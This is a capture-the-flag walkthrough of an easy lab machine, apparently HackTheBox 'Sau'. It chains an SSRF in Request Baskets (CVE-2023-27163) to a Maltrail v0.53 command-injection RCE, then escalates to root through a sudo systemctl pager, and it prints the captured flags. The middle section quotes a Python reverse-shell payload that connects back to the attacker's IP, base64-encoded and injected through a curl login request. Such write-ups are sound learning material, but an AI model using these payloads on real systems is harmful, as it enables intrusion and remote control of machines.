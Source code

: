 # Notes:

### IP:
10.10.11.224
### Level:
Easy
### User flag:
aae76269af82f34d13677a7c61db2a48
### Root flag:
c5b4ba7e6f9f1d81ec295f0c28e08ac8


# Nmap

### Nmap gives the following output
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 06 Nov 2023 16:33:37 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|_    Content-Length: 0

```
### With this command
```
nmap -p- -sV -sC 10.10.11.224
```

# Web

Accessing both the 80 port and 8338 port gives us no response on Firefox.
<b>However</b> the :55555 port gives us something:
![[Pasted image 20231106174027.png]]

A request basket webpage. Googling a bit around allows us to find that version 1.2.1 and under is vulnerable to a SSFR attack. Checking the version on the webpage to see if we have that version and...

![[Pasted image 20231106174214.png]]
### <b>bingo</b>

# SSRF with **[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**:

Cloning the repository and using the script, we can make the server redirect itself to the other ports we found earlier in the nmap scan, specifically port 80 and port 8338.

We can run these commands that gives us the URL's that redirects to itself with their ports.
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:8338
```
and
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

Going to the new basket we have created redirects us to those ports where this strange website is hosted:
![[Pasted image 20231106192314.png]]

This really gives us nothing. We see that there is a log in button, however it's not clickable. Nor does it have a link that redirects in the html. HOWEVER! On the bottom of the page we see something interesting once more:

![[Pasted image 20231106192538.png]]

Googling "Maltrail (v0.53)" led me to this https://github.com/spookier/Maltrail-v0.53-Exploit GitHub page. So as the github page describes. There is a RCE (Remote Code Execution) vulunrability in the login page for Maltrail version 0.53. This must be the "Log In" button we saw previously. So by pure chance I wanted to see if there is a directory called login and...

![[Pasted image 20231106192921.png]]

### Bingo (again)

So we know there is a login page. We can either use the this nice person's repo, or you can manually send a request via curl, where the data is a reverse shell that's 64 encoded, and decoded using bash on the server's side. OR you can download the script and run it.

If you're curious what the script does:

```python
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
```

This is the main part of the script. The **payload** is a reverse shell that uses python to spawn a shell. The **encoded payload** is just the base64 encoded version of that very payload. Finally the **command** is the request that RCE's the username field with a simple semicolon and then decrypts our payload on the server and runs it.

Pulling all of this together or running the script and...

![[Pasted image 20231106193848.png]]
## **We're in**

Navigating to /home/puma we can now cat out the file user.txt and get:
![[Pasted image 20231106194310.png]]

# Privilege escalation with # Systemctl:

This one was kind of a cakewalk.

Doing the command `sudo -l` is a quick way to find any privilage escalations, because it lists every command our user can run as root using the sudo command. We then get the output:

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can run the the command `sudo systemctl status trail.service` with no password what so ever. This article goes more in depth on what you can do to privilege escalate with Systemctl: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can just run `sudo systemctl status trail.service` and spawn a shell with `!sh` and boom! We are now root. All we have to do now is cat out the contents of /root/root.txt and:

```
# cat /root/root.txt
c5b4ba7e6f9f1d81ec295f0c28e08ac8
```

**In conclusion**: The user flag was very hard to get conceptually and the one I was stuck on. I knew that there was a SSFR, however I didn't know what to do with it. After knowing you could redirect into it's own ports, the challenge became a lot more feasible. I didn't write any of my own scripts with this challenge so hopefully there will come a time in the future for that.